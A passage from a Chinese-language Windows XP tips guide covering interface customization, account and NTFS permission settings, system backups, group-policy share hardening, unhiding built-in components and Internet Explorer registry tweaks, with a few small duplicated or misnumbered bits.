- 2. 然后重新启动电脑，进入到安全模式下，选择 “Command Prompt” 方式。
- 3. 使用管理员身份登录，在 DOS 提示符下，用拷贝命令将前面解压出来的 “logonui.exe” 替换掉c:\windows\system32\目录下的 logonui.exe文件。
- 4. 替换完成后，重新启动电脑，就可以看到新的登录画面了。

#### (二)脱掉 Windows XP 华丽的外衣

倘若你还是一位新的 Windows XP 用户，一时还为 Windows XP 的这身华丽外装感到晕头转向的话，你不妨把这个界面更换到 Windows 2000 的界面，下面介绍两种更换的方法。

方法一：在桌面的空白处单击鼠标右键，选择快捷菜单的【属性】命令，然后在【显示属性】窗口中选择【主题】选项卡，再选取下拉列表框中的【经典 Windows】选项(如图 29)，单击【确定】按钮即可。

方法二：选择【我的电脑】右键菜单中的【属性】命令，在【系统属性】窗口中选择【高级】选项卡，在【性能】栏中单击【设置】按钮，然后在【性能选项】窗口的【视觉效果】选项卡中选择【自定义】，将列表框中的【在窗口和按钮上使用视觉样式】和【在文件夹中使用常见任务】等复选框的勾选标记取消。

#### (三)让 Windows XP 拥有更多的桌面主题

Windows XP 提供的桌面主题数量非常有限，随着时间的推移，用户会对现有的主题样式感到厌烦。其实要想解决这个问题，你不妨到微软的站点去下载新的桌面主题。另外，倘若你希望自己的桌面永葆青春的话，那就不妨到下面的这些网址去看看！

- - http://www.themexp.org
- - http://www.tgtsoft.com
- - http://www.angelfire.com/ok5/osirisnet/
- - http://www.msnskins.nl

#### (四)个性屏保自己做

屏幕保护程序不仅可以保护你的电脑屏幕，而且还可以展示你的个性，虽然 Windows XP 本身也提供了一定数量的屏幕保护程序，但久而久之，就会让人腻烦。或许你还不知道，Windows XP 本身也能轻松实现个性屏保的设定。具体操作步骤如下。

- (1)首先准备好若干幅个人照片，然后把它存放到事先创建好的文件夹中(例如 “C:\MyPhoto”)。
- (2)用鼠标右键单击桌面的空白处，选择快捷菜单中的【属性】命令，弹出【显示属性】窗口，然后再选择【屏幕保护程序】选项卡，在【屏幕保护程序】下拉列表中选择【图片收藏幻灯片】选项(如图 30)，单击【设置】按钮，打开【图片收藏屏幕保护程序选项】窗口。
- (3)在【使用该文件夹中的照片】文本框的右侧单击【浏览】按钮，找到 “C:\MyPhoto” 文件夹，然后单击【确定】按钮(如图 31)。

#### (五)个性图片标识帐户

在Windows XP的开始菜单中，有一项设置极为吸引人，那就是在开始菜单的顶部显示当前用户的名称和个性头像，如果把你的头像照片加上去想必一定更有个性，那么该如何实现呢？具体操作步骤如下。

- (1)在【控制面板】窗口中用鼠标双击【用户帐户】图标，在弹出的【用户帐户】窗口中，单击想要改变的名称(或头像)的帐户名称，然后选择【更改我的名称】选项。在输入框内填写自己比较喜欢的名称，然后单击【改变名称】按钮即可完成设置。
- (2)然后选择【更改我的图片】选项，在图像选择框中选择自己想要的图片，当然你也可以通过单击【浏览图片】按钮，在指定的文件夹中选取你的照片头像，然后单击【更改图片】按钮即可。

完成设置后，再打开你的【开始】菜单看看吧，这时窗口顶部图像已经更换成你的头像了，十分具有个性！如图32所示。

提示：建议你的照片头像尺寸不要过大，因为Windows XP将会把过大的图片自动缩小。

#### (六)组策略法让QQ进入IE 6工具栏

如果你的Windows XP安装了网络蚂蚁、ICQ、QQ等软件，那么你会发现除了QQ的那个小企鹅图标外，其他软件的图标都自动添加到IE 6浏览器的工具栏中了，而QQ的快捷方式图标则必须手动添加，现在就来把它给加上去，具体方法如下。

#### 1. 启动组策略编辑器

组策略是Windows XP中一个非常优秀的系统配置程序，该程序是Microsoft公司提供给高级用户使用的，正是因为这个原因，该程序是隐含的，并没有出现在程序组中，不过你可以通过手工的方法来运行它，具体方法为：单击选择【开始】→【运行】菜单命令，弹出【运行】对话框，然后在【打开】下拉列表框内输入“gpedit.msc”，单击【确定】按钮即可。

#### 2. 给IE 6工具栏添加QQ快捷方式

- (1)在组策略编辑器的左侧窗格中，逐级展开【‘本地电脑’策略】中，逐级展开【用户配置】→【Windows设置】→【Internet Explorer维护】→【浏览器用户界面项】分支，然后在右侧窗格中用鼠标双击【浏览器工具栏自定义】策略项。
- (2)在【浏览器工具栏自定义】窗口中你可以看到这里有两项功能(如图33)：一个是更改浏览器工具栏的背景位图，这个就不用说了，选择你喜欢的BMP图像即可；另一个的功能是用来添加快捷方式，单击其中的【添加】按钮，弹出【浏览器工具栏按钮信息】窗口。
- (3)在【工具栏标题】中输入“QQ”；在【工具栏操作】中选择【C:\Program Files\Tencent\QQ2000b.exe】；最后再选中【颜色图标】和【灰度图标】指定两个企鹅的图标(如图34)，单击【确定】按钮，打开IE，可以看到IE工具栏上已经出现了QQ图标按钮。

提示：这两个图标获取非常简单，只要用图标提取工具即可在 “QQ2000b.exe” 文件中获取。目前在网上可以随便搜索到这样的工具，比如 SnagIT、Capture Professional、Icon Catch 等。

#### (七)在任务栏显示星期与日期

任务栏上一般有时间显示，但没有星期和日期，而其实，要同时显示星期和日期一点都不难，现在就跟着我们来一起做吧！首先用鼠标右键单击任务栏的空白处，然后将快捷菜单中【锁定任务栏】前的勾选标记去掉，接着将鼠标移到屏幕下边任务栏的上边线位置，当鼠标指针变成双箭号时，按住左键，往上拖拉至两行高位置，此时系统托盘即可显示时间、日期和星期(如图35)。

#### (八)把“运行”放到桌面上

如果你已厌烦通过【开始】→【运行】的方式来调用 Windows XP 的程序和命令的操作，那么不妨把【开始】中的【运行】命令放到桌面上。其方法十分简单，只要用鼠标选中【运行】命令，把它拖放到桌面上即可建立它的快捷方式。这样，我们只要用鼠标双击这个快捷方式，立刻就会打开【运行】对话框，比以前方便多了。

#### (九)让你的“开始”菜单更个性化

在 Windows XP 的【开始】菜单主面板的左侧分栏上方提供了浏览器、邮件程序的快捷图标，倘若你想把它们换掉，只要按如下方法操作即可。

- (1) 在【开始】按钮上单击鼠标右键，然后选择快捷菜单的【属性】命令，弹出【任务栏和「开始」菜单属性】设置窗口。
- (2) 选择【「开始」菜单】选项卡，单击【自定义】按钮，弹出【自定义「开始」菜单】设置窗口。
- (3) 在【常规】选项卡中，将【在「开始」菜单上显示】一栏下的【Internet】和【电子邮件】两个选项的复选框勾选，然后通过其下拉菜单选择相应的程序即可(如图36)。

如果你想在这个区域加上自己喜欢的程序，那么在资源管理器或【我的电脑】中直接将程序文件拖放到【开始】按钮上即可；或者用鼠标右键单击【开始】→【所有程序】中要显示的程序菜单项，然后选择快捷菜单中的【附加到「开始」菜单】命令。这样，该程序的快捷方式图标便会出现在【开始】菜单的主面板上方了。接下来，你还可以用鼠标拖动来调整它们的位置，或直接右击它，选择【从「开始」菜单脱离】命令将其移出。

#### (十)任务栏也能快速启动应用程序或网页

由于 Windows XP 提供了在地址栏快速启动应用程序的功能，为了更加方便，你可以将地址栏添加到任务栏中。具体方法为：用鼠标右键单击任务栏的空白处，在弹出的快捷菜单中选择【工具栏】→【地址】命令，这样任务栏右侧会显示【地址】，倘若要打开地址栏，只要双击它即可(如图37)；同样再次双击【地址】即可回收地址栏。

这样，你只需在该地址栏内输入程序的名称即可快速启动该程序，例如：你想启动计算器，只要在地址栏内键入 “calc” 命令即可，而且所有能够在【运行】对话框运行的命令都可运行于该地址栏。另外，你在这里还可以输入 Web 站点的网址(例如 “http://www.cfan.cn.net”)，以便快速进入该站点。

#### (十一)把主页放到桌面上

如果你是一个网迷，那想不想为你的爱机定制一个具有网虫身份的桌面呢？使你一开机就使桌面成为某个站点的主页。其实这很简单，现在就帮你实现这个愿望，具体设置步骤如下。
- (1)用鼠标右键单击桌面，选择快捷菜单中的【属性】命令，弹出【显示属性】窗口。
- (2)在【桌面】选项卡中单击【自定义桌面】按钮，弹出【桌面项目】窗口。
- (3)在【Web】选项卡中单击【新建】按钮，弹出【新建桌面项目】窗口，然后在【位置】框内输入站点的URL地址(例如“http://www.cfan.cn.net”)，单击【确定】按钮。这样，“电脑爱好者”站点的主页网址就被添加到【网页】列表中(如图38)，确保其前面的复选框处于勾选状态，另外，为防止不小心移动或调整了桌面上Web项目，须将【锁定桌面项目】复选框勾选。单击【确定】按钮完成操作。

这样，以后只要你的电脑是与互联网联通的，那么你的桌面就会变成“电脑爱好者”站点的主页了。

#### (十二)在桌面上放置定时关机快捷方式

- 1. 用鼠标右键单击桌面，选择快捷菜单的【新建】→【快捷方式】命令，在弹出向导窗口的中【命令行】框内输入“C:\Windows\system32\tsshutdn.exe 10/powerdown/DELAY:01”（其中：“10”为关机的延长时间、“/Delay:01”为电源关闭的延长时间）。当然，你也可以根据自己的实际情况来修改。然后单击【下一步】按钮继续。
- 2. 在新的画面中为这个快捷方式取个名字(例如“定时关机”)。接下来，在这个快捷方式的右键菜单中选择【属性】命令，然后在弹出的属性窗口中选择【快捷方式】选项卡，单击【更改图标】按钮，为这个快捷方式指定一个比较靓的图标，便完成了在桌面上建立一个【定时关机】的快捷方式。

### 五、让旧版程序重现生机

很多 Windows 9x 下的游戏程序似乎和 Windows XP 有冲突，但它们通过调整以后，大部分都是可以在 Windows XP 下运行的。首先在桌面上为其创建一个快捷方式，然后选择右键菜单的【属性】命令，在弹出的属性设置窗口中选择【兼容性】选项卡，在【兼容模式】栏中将【用兼容模式运行这个程序】复选框打上勾选标记。然后在其下拉列表中选择【Windows 98】或【Windows 98/Me】选项(如图39)。

通过上述设置后，若程序运行正常，则该程序与 Windows XP 的兼容性问题就算解决了。

另外，如果应用程序的兼容性问题可能与屏幕显示有关，比如窗口显示混乱、打开或关闭时出现各种错误，则可以试试单独(或同时)选中上述窗口中的“用256色运行”、“用640 × 480屏幕分辨率运行”或“停用视觉主题”等选项，有时也非常有效。例如:浏览器MyIE在打开窗口时，老是有一个小窗口的影子在屏幕一晃而过，只要我们对该程序(或其快捷方式)的属性进行适当的兼容性设置后，选择“停用视觉主题”选项，运行时就会非常流畅。

### 六、找回 Windows XP “丢失” 的东东

刚开始使 Windows XP 的朋友可能会发现那些原本在 Windows 系统中经常出现的项目不知上哪去了，这或多或少给老视窗用户带来了一些不便，其实，这些“失踪”的功能大多并未真正被去掉，只是它们被 Windows XP 隐藏起来了，现在我们就帮你把它们一一都找出来吧。

#### (一)找回“丢失”的输入法工具栏

在 Windows XP 中，倘若输入法工具栏不知什么缘故消失的无影无踪，按照以前版本的方法却找不到恢复的设置项目，想必一定是满头大汗吧？请不要着急，现在就帮你把它给找回来，具体方法如下。

- 1. 在【控制面板】窗口中用鼠标双击【区域和语言设置】图标，然后在弹出的窗口中选择【语言】选项卡，再单击【详细信息】按钮。
- 2. 在弹出的【文字服务和输入语言】窗口中单击左下角的【语言栏】按钮。这样，在【语言栏设置】窗口中把【在桌面上显示语言栏】这个复选框重新打上勾选标记就行了（如图48）。此时你会发现久违的输入法工具栏又回来了。

#### (二)找回被隐藏的系统托盘图标

在 Windows 98 的系统托盘里，你能够发现有“计划任务”、“声音”和“输入法”这几个常驻图标。倘若开启的任务多了，还会有更多的图标显示在系统托盘里。可是在 Windows XP 中，虽然也有图标显示在系统托盘里，某些图标却会意外地失踪。下面，就让我们来看看这究竟是什么原因引起的。

其实，这是 Windows XP 提供的“隐藏不活动的图标”功能在作怪，当系统托盘中某个图标经过一段时间没有使用的话，Windows XP 会自动把它隐藏起来，此时你会发现系统托盘的左侧多了个圆形按钮，单击这个按钮后被隐藏的图标就会全部显示出来。当然，你也可以在【任务栏和[开始]菜单属性】窗口的【任务栏】选项卡中，单击【隐藏不活动的图标】选项后面的【自定义】按钮来设置图标隐藏的选项。在【自定义通知】窗口中，单击一个项目后面的【行为】下拉列表(如图49)，可以将其设置成“总是隐藏”、“总是显示”或者“在不活动时隐藏”。

#### (三)失踪的任务栏按钮

经常上网的朋友可能会有过这样的经验，在 Windows 98 中上网冲浪时，倘若 IE 浏览器打开的窗口过多，任务栏的按钮会被挤的很小，甚至连按钮上的文字都看不到了。但在 Windows XP 中你却会发现这些密密麻麻的按钮突然一下减少了许多，这究竟是怎么回事呢？

这是因为在 Windows XP 提供了一项叫做“分组相似的任务栏按钮”的功能，当任务栏按钮过多时，它会把同一类按钮分组集合在一个按钮上，以便精简任务栏。倘若要恢复显示这些被藏起来的任务栏按钮，你只要用鼠标右键单击【开始】按钮，选择快捷菜单中的【属性】命令，然后在【任务栏】选项卡中取消【分组相似任务栏按钮】复选框的勾选即可。

菜单中的【属性】命令，在【任务栏和「开始」菜单属性】窗口中选择【任务栏】选项卡（如图50），然后将【任务栏外观】中的【分组类似任务栏按钮】复选框前面的勾选标记去掉就行了。

#### （四）开始菜单和收藏夹被“压缩”了

当Windows XP使用一段时间过后，你会发现开始菜单和IE收藏夹中的一些项目不见了，其实它们都被Windows XP隐藏了起来。因为在Windows XP中，某个开始菜单项目如果经过一段时间不使用的话，就会被隐藏起来，要看到这些项目我们可以单击被缩短的开始菜单下方的条形按钮就行了。

IE 6收藏夹也有这个现象，这是因为在IE中使用了个性化收藏夹，倘若你不喜欢这个功能，可以将其取消，具体方法为：在【控制面板】窗口中双击【Internet 选项】图标，然后在【Internet 选项】设置窗口中选择【高级】选项卡，在设置列表中找到【启用个性化收藏夹菜单】选项，并将其前面复选框的勾选标记取消即可（如图51）。



#### （五）找回管理权限的“安全”选项卡

在Windows 2000中，可以通过对NTFS文件系统的文件（或文件夹）选择右键快捷菜单中的【属性】命令，然后在属性设置窗口的【安全】选项卡中对其进行访问权限的设置。可是在Windows XP中你却发现这个【安全】选项卡失踪了，其实，Windows XP是Windows 2000的升级版本，当然不会省略这个选项，只不过是将其隐藏罢了。

倘若你要恢复显示这个【安全】选项卡，你只要在资源管理器窗口中选择【工具】→【文件夹选项】命令，在弹出的窗口中选择【查看】选项卡，然后将【高级设置】列表中的【使用简单文件共享】复选框的勾选标记去掉即可（如图52）。



### 七、一机多用户权限设置的技巧

#### （一）禁止安装软件

对于多人使用的电脑来说，如果有的用户总是喜欢无休止地往电脑中安装游戏软件，那么你该如何禁止他们的安装权限呢？最有效的方法是为其创建为一个受限帐户，这样，当这些用户以自己的帐户登录Windows XP时，只能运行预先安装好的程序和存取属于自己文件，至于软件安装则只能作罢了。创建这种受限帐户的具体步骤如下。

-   (1) 首先以系统管理员（Administrator）的身份登录到Windows XP。
-   (2) 点击选择【开始】→【控制面板】命令，在【控制面板】窗口中双击【用户帐户】图标。
-   (3) 在弹出的窗口任务列表中单击【创建一个新用户】（如图53），然后在向导窗口的文本框内输入一个名称（例如“Moon”），这个名称将出现在欢迎屏幕或开始菜单中，然后单击【下一步】按钮。



-   (4) 在新出现的画面中提供了【计算机管理员】和【受限】两种权限。用鼠标点选【受限】单选按钮，然后单击【创建帐户】即可（如图54）。



另外，在任务列表窗口中你还可以完成对所建帐户进行改名和删除等操作。

#### （二）帐户管理好帮手——组

倘若你想要让其它用户对自己的某个文件夹只具有读的权限，通常的做法是分别为每个帐户赋权限，如果用户比较多的话，这样的做法比较麻烦，为了解决这个问题，可以创建一个具有特定权限的成员组，只要将其他帐户添加到这个组中，然后再给这个组分配此权限，那么该组中的所有用户就都拥有了这个权限。创建组的具体步骤如下。

-   (1) 单击选择【开始】→【控制面板】命令，依次双击【管理工具】→【计算机管理】图标，弹出【计算机管理】窗口。
-   (2) 在左侧窗格的树形结构中，逐级展开【系统工具】→【本地用户和组】，在该分支下有【用户】和【组】两个选项。选择【组】，在右侧窗格中你会发现“Administrators”、“Power Users”、“Users”和“Guests”等系统内建的组（如图55）。



-   (3) 选择【操作】→【新建组】命令，弹出【新建组】窗口。在【组名】框内输入“Home Member”，然后单击【创建】按钮即可创建一个组。
-   (4) 接下来为该组填加成员，单击【添加】按钮，弹出【选择用户】窗口。
-   (5) 单击【对象类型】按钮，将对象类型选择为【用户】；然后再单击【高级】按钮。
-   (6) 在进一步展开的选择用户窗口中单击【立即查找】，在搜寻结果列表中选取某个用户，比如这里选择的是“Sun”用户，单击【确定】按钮（如图56），将“Sun”帐户添加到该组中；采用相同的方法，将其它用户也添加到这个组中，完成组的创建工作。



#### （三）Windows XP也可实现标准帐户权限

倘若某个用户想要获得类似于Windows 2000中标准帐户的权限，但Windows XP并没有直接提供创建这类帐户的功能，那我们该如何实现呢？具体设置步骤如下。

-   (1) 在【计算机管理】窗口的【系统工具】→【本地用户和组】分支下，选择【组】选项，在右侧窗格中双击【Users】组，弹出【Sun属性】窗口，在【成员】列表中点选“Sun”，然后单击【删除】按钮将该帐户删除，单击【确定】按钮返回到【计算机管理】窗口。
-   (2) 双击【Power Users】组，在弹出的【Power Users】属性窗口中单击【添加】按钮，按照上文介绍的方法将“Sun”帐户添加到“Power Users”组中即可。

这样，一个受限帐户 Sun 也就可以获得标准帐户的权限了，从此即可解除软件安装的限制了。

#### （四）给文件加个护身符

当多人共用一台电脑时，想必你最担心的是自己的文档被他人误删除，或者秘密文档被偷看，倘若你用的是 NTFS 文件系统，那就让 Windows XP 为你的文档（或文件夹）加个护身符吧！这样，即使一个受限帐户也可以拒绝管理员访问他的受保护的文件（或文件夹）。现在就来介绍一下设置方法，例如对于某个家用电脑来说，要禁止管理员访问“MyDocument”文件夹，而家庭成员组的帐户可以对该文件夹进行只读访问。具体步骤如下。

-   (1) 例如以“Moon”身份登录，用鼠标右键单击【MyDocument】文件夹，选择快捷菜单中的【属性】命令。在打开的属性窗口中选择【安全】选项卡（如图57）。



-   (2) 单击【高级】按钮，在弹出的高级安全设置窗口中将【从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目】复选框前的勾选标记取消，此时屏幕上会弹出一个安全提示，这里选择【复制】（或者【删除】）即可（如图58）。然后单击【确定】按钮退回到属性窗口。
-   (3) 在【用户和组】列表中将“SYSTEM”、“CREATOR OWNER”和“Users”组删除。
-   (4) 接着单击【添加】按钮，弹出【选择用户和组】对话框，按照上文介绍的方法，将【Home Member】组添加到【组或用户名称】列表中。



-   (5) 接下来分别设置权限，在属性窗口的【组或用户名称】列表中首先选取【Administrators】组，然后在下面的权限列表中勾选【完全控制】行中的【拒绝】复选框，同时你会发现这一列的其它复选框也自动打上了勾选标记（如图59）。这样管理员组的成员就被拒绝访问该文件夹了。



-   (6) 再选择【Home Member】组，在权限列表中确保【读取和运行】的【允许】复选框处于勾选状态即可。这样，该组中的成员就能查看和运行该文件夹中的文档了。

倘若给“Home Member”组只设置读文件夹的权限，又给某个用户设置写的权限，但最终该用户只能获取读文件夹的权限，这是因为“安全”属性总是取决于所有权限中最严格的那个权限的缘故。

提示：在Windows XP中，若要对文件夹进行安全权限设置时，首先该文件夹所在的磁盘驱动器必须是NTFS文件系统，倘若不是这种文件系统，必须将其转换，其方法为：在【运行】对话框内键入 “Convert X: /fs:ntfs”（其中X就是被转换的磁盘驱动器），单击【确定】按钮即可。

#### （五）在公共文件夹中设置安全屏障

倘若你的某个文件夹（例如 “Public”）存放了一些公共文件，可以允许Users组成员读写，但是这个文件夹中还有一个 “Secret” 子文件夹是用来存放一些重要文件的，只允许Users组成员读取。这样的安全屏障该如何设置呢？具体方法如下。

-   1. 首先用鼠标单击【Public】文件夹，选择快捷菜单中的【属性】命令，在弹出的属性窗口中单击【安全】选项卡。
-   2. 在【组或用户名称】列表中选择【Users】组，然后将其权限设置为允许 “完全控制”。
-   3. 然后再打开【Public】文件夹，选择【Secret】右键菜单中的【属性】命令，在弹出的属性窗口中单击【安全】选项卡，此时你会发现【Users】组拥有【完全控制】的权限，并且允许权限显示为灰色，表明该权限是从上级文件夹【Public】上传递下来的，单击【拒绝】中的【写入】，选中该项，单击【确定】按钮，此时系统给出一个【安全】警告窗口，提示 “拒绝” 的优先级要高于 “允许”，单击【是】按钮即可。

这样，“Users” 组成员再往 “Secret” 文件夹中写文件时，就会遭到拒绝。拒绝权限好比是拦路设的屏障，用来阻止来自上一级（父级）下达的命令。

### 八、Windows XP的数据备份

#### （一）备份激活信息

当你重新安装Windows XP后，通常的做法是将其重新激活，事实上，并非每次都要按部就班地重复这样的操作，你只要在第一次激活Windows XP后，将“\WINDOWS\system32”文件夹中的“wpa.dbl”和“wpa.bak”备份到一个安全的地方即可，当再次安装Windows XP后将备份的文件复制到该文件夹中即可。

#### （二）备份加密文件的证书

倘若你将Windows XP下的某个文件（或文件夹）进行了加密，当再次安装操作系统后，加密过的文件就再也不能打开了。对于这种问题，最好的解决办法就是在重装系统之前导出用户证书，待重装系统后将证书导回就行了。备份证书的具体方法如下。

-   (1) IE 6浏览器的【工具】菜单下选择【Internet选项】命令。
-   (2) 在弹出的【Internet选项】窗口中选择【内容】选项卡，然后单击【证书】按钮。
-   (3) 在【证书】窗口的【个人】选项卡中，选取列表中要备份的证书，然后单击【导出】按钮，根据向导提示，即可将证书保存到指定的文件夹中。

当重装Windows XP后，在【证书】窗口的【个人】选项卡中单击【导入】按钮，然后根据向导的提示将事先备份好的证书导入电脑即可。这样，你以前加密过的文件也就能照样打开了。

#### （三）创建修复密码启动盘

在Windows XP中你可以通过对自己的帐户设置密码来保护自己的隐私，如果自己忘记了这个密码，那该怎么办呢？倘若是在Windows 2000中那可就没辙了，但Windows XP却给我们提供了创建修复密码启动盘功能来解决这个问题。这样，当你在忘记密码的时候，便可以通过这张软盘来启动电脑。创建修复密码启动盘的具体步骤如下。

-   (1) 在【控制面板】窗口中双击【用户帐户】图标，在弹出的【用户帐户】窗口中选择你的帐户名称，便会进入该帐户的窗口界面，然后单击左上方的【阻止一个已忘记的密码】选项，打开【忘记密码向导】窗口（如图60）。



-   (2) 将一张格式化过的空白磁盘插入到软驱中，然后在【忘记密码向导】窗口中单击【下一步】按钮，在新出现的画面中会提示你输入这个账户现在的密码，稍等片刻，便可以完成密码启动盘的创建。不过这个启动盘一定要保存好，如果这张软盘落到他人手里，便可轻而易举地用你的账户登录到这台电脑。

如果在启动的时候你发现忘了密码，那么只要单击账户旁边的右向箭头，然后在弹出的提示栏中单击【使用密码重设磁盘】，再将软盘插入软驱，按照提示操作，便可以更改密码并启动电脑了。

#### （四）提取 Windows XP 安装序列号

当你在安装 Windows XP 的时候忘记了安装序列号怎么办呀？请不要着急，你只要在系统安装路径下找到“Windows\System32”文件夹，然后用记事本程序将“$winnt$”配置文件打开，在“[userdata]”小节中的“ProductKey:”后面，就能找到安装序列号了，如图61！



#### （五）备份硬件配置文件

硬件配置文件可在硬件改变时指导 Windows XP 来加载正确的驱动程序，倘若你进行了一些硬件的安装或更改，很有可能导致系统无法正常启动或者运行。这时，你就可以使用事先备份好的硬件配置文件来恢复以前的硬件配置。这里要建议你在每次安装或修改硬件时都要对硬件配置文件进行备份。这样，就可以非常方便地解决许多因硬件配置而引起的系统故障。备份硬件配置文件的具体操作步骤如下。

-   (1) 用鼠标右键单击【我的电脑】图标，然后选择快捷菜单中的【属性】命令，弹出【系统属性】设置窗口。
-   (2) 选择【硬件】选项卡，在【硬件配置文件】栏中单击【硬件配置文件】按钮，弹出【硬件配置文件】窗口。
-   (3) 在【可用的硬件配置文件】列表中显示了本地电脑中可用的硬件配置文件清单。在【硬件配置文件选择】栏中，可以选择在启动 Windows XP 时（倘若有多个硬件配置文件）调用哪一个硬件配置文件。若要备份硬件配置文件，请单击【复制】按钮，在打开的【复制配置文件】对话框的文本框中输入新的文件名（例如“MyHardConfigFile”），然后单击【确定】按钮即可。

此时你就可以在【可用的硬件配置文件】列表中看到刚刚备份的文件了（如图62）。

#### （六）备份 Windows XP 多系统启动菜单

启动菜单非常重要，它可以供我们在启动电脑时选择要进入的操作系统，倘若启动菜单丢失了该怎么办呢？总不至于为了恢复启动菜单重新安装 Windows XP 吧！当然不能。不过为了避免这种情况的发生，最好将其做个备份。具体方法如下。

-   (1) 在【资源管理器】中选择【工具】→【文件夹选项】命令，在打开的【文件夹选项】窗口中选择【查看】选项卡，在列表中取消【隐藏受保护的操作系统文件（推荐）】前的小勾，并接受警告信息。
-   (2) 然后选择【隐藏文件和文件夹】下的【显示所有文件和文件夹】选项，最后把 C 盘根目录下的所有文件（不包括文件夹）压缩成一个文件保存到安全的地方。倘若以后启动菜单丢失，就可以把备份的文件复制到原来的位置，即可恢复启动菜单。

### 九、应用组策略保护共享资源

用过 Windows XP 的用户想必都已经知道，其共享文件的方式有些与众不同，它提供了一个简单的文件共享功能，通过它可以很方便地设置共享。但是，这种共享虽然方便却很不安全，下面，就为大家介绍一种通过使用 Windows XP 提供的组策略功能，来增强共享资源的安全性的方法。在组策略编辑器窗口的左侧窗格中，逐级展开【计算机配置】→【安全设置】→【本地策略】分支，组策略中与网络共享相关的设置都集中在该分支下的【用户权利指派】和【安全选项】中（如图63），现在把与网络共享相关的具体策略详细分析如下。



#### （一）从网络访问你的电脑

选择【用户权利指派】选项，在右侧窗格中用鼠标双击【从网络访问此计算机】策略项，然后在弹出的属性窗口中单击【添加用户和组】按钮，你可以添加允许从网络访问当前电脑的用户和组（如图64）。



#### （二）拒绝从网络访问你的电脑

该选项同样在【用户权利指派】选项中，但其功能与【从网络访问此计算机】策略项相反，可以设置那些被拒绝从网络访问当前电脑的用户和组。

#### （三）只有本地登录的用户才能访问软盘

该设置项位于【安全选项】中，默认情况下，右侧窗格中的【只有本地登录的用户才能访问软盘】策略项处于停用状态，用鼠标双击该策略项，在弹出的对话框中选择【已启用】单选按钮。这样，网络用户就不能通过共享方式来访问你的软盘了。

另外，通过启用【只有本地登录的用户才能访问CD-ROM】策略项，也可以达到禁用网络用户访问你的CD-ROM的目的。

#### （四）本地帐号的共享和安全模式

该项位于【安全选项】设置项中，可以在该策略项中选择 Windows XP 的共享方式（如图65），其中“经典”方式是指 Windows 2000 的共享管理模式；而“仅来宾”方式则是指 Windows XP 默认的简单文件管理模式。



#### （五）不允许SAM帐户和共享的匿名枚举

该项位于【安全选项】设置项中，倘若将其启用，网络用户将不能打开你的电脑以及显示你的共享目录。只有确切知道你的共享名，并在【开始】菜单的【运行】对话框（或地址栏）中键入“\\你的计算机名称\共享目录名”（例如“\\sunbird\MyFolder”），注意：Windows XP 下需要使用半角的双引号将其括起来，这样才能将共享目录打开，这样才能对共享目录进行访问，从而大大提高了共享的安全性。

#### （六）可匿名访问的共享

在【安全选项】设置项中，可以在该策略项中添加可匿名访问的共享目录。该策略项仅对 Windows 98 有用。

### 十、卸载顽固程序

在 Windows XP 中有许多系统自带的程序，例如“Windows Messenger”、“Windows Update”等，在“添加／删除 Windows 组件”中是找不到相关的卸载选项的，倘若不想使用这些程序的话，按照一般的方法很难将其卸载，Windows XP 这种强加于人的做法着实让普通的用户犯难了。况且，“Windows Messenger”之类的程序每次在系统启动时却会自动运行，白白占用了系统资源，如果你真的不喜欢这些顽固分子，可以按照以下方法将其卸载。

-   (1) 在资源管理器窗口中，选择【工具】→【文件夹选项】命令。

项】命令，然后在弹出的窗口中选择【查看】选项卡，在【高级设置】列表中选择【显示所有文件和文件夹】选项。

- (2) 接下来就可以进入并打开“\Windows\inf”文件夹，然后找到“sysoc.inf”文件，用记事本程序将其打开，找到其中的“msmsgs=msgrocm.dll,OcEntry,msmsgs.inf,hide,7”行，把行中的“hide,”删除，保存“sysoc.inf”文件并重新启动计算机。

注意：在修改“sysoc.inf”文件之前，最好先将其备份，以防不测。

- (3) 在【控制面板】中，打开【添加或删除程序】中的【添加/删除Windows组件】，就可以看到“Windows Messenger”(如图66)。最后，按照卸载一般Windows组件的方法把它删除即可。仿照此法，你也可以删除其它如“Windows Update”的顽固程序了。



提示：下面是常见隐藏组件

```
CommApps=ocgen.dll,OcEntry,communic.inf,HIDE,7(通讯工具)
MultiM=ocgen.dll,OcEntry,multimed.inf,HIDE,7(多媒体)
AccessOpt=ocgen.dll,OcEntry,optional.inf,HIDE,7(辅助功能向导)
Pinball=ocgen.dll,OcEntry,pinball.inf,HIDE,7(三维弹球)
MSWordPad=ocgen.dll,OcEntry,wordpad.inf,HIDE,7(写字板)
```

至此，想必你也已经完全明白，原来Windows XP只是把这些程序的卸载选项在【添加/删除Windows组件】中隐藏起来了，卸载了这些程序之后，不但会节省了一定的硬盘空间，还可以加快系统的运行速度，真可谓一举两得。

### 十、Windows XP中的网络应用技巧

#### (一)让IE 6多线程下载网页

当你用IE浏览器在网海冲浪的时候，有没有想过让IE 6也来个多线程下载网页呢？可是浏览器并没有提供相应的功能呀！不过要实现这项功能也不难，方法如下。

选择【开始】→【运行】菜单命令，然后在【运行】对话框的【打开】框中输入“regedit.exe”命令，单击【确定】按钮;然后在注册表编辑器窗口的左侧窗格中逐级展开“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings”分支，然后在右侧窗格中新建一名称为“MaxConnectionPerServer”的DWORD值，将其设置为最大同步下载的线程数，注销并重新登录即可。

#### (二)禁止IE 6下载文件

为了避免他人随意用你的电脑下载软件，你可以禁止IE 6的下载功能，具体方法为:在注册表编辑器中逐级展开“HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions”分支，然后在右侧窗格中新建一名称为“NoSelectDownloadDir”的DWORD值，并将其设置为“1”。这样就无法通过IE 6来下载文件了。

#### (三)禁止浏览器自动检测新版本

当你在网上冲浪时，Windows XP经常会在任务栏上弹出一个提示你升级系统文件的消息，其实这是IE浏览器的定期更新(大约每30天左右)检查在“捣乱”，Windows XP系统自带的IE 6.0就会定期检查是否有新的升级软件，如果有而你若没有下载升级，便会弹出上述的提示对话框，倘若你想要避免打扰的话，你只要在注册表编辑器中逐级展开“HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Internet Explorer\Infodelivery\Restrictions”分支，在右侧窗格中新建一名称为“NoUpdateCheck”的DWORD值，然后将其设置为“1”即可。

另外，你还可以用组策略的方法来实现。具体操作步骤为:在组策略编辑器窗口左侧窗格的树形目录中，逐级展开【计算机配置】→【管理模板】→【Windows组件】→【Internet Explorer】分支，然后在右侧窗格中用鼠标双击【禁用定期检查Internet Explorer软件更新】选项;在属性窗口的【设置】选项卡中选择【已启用】单选按钮，然后单击【确定】按钮即可。

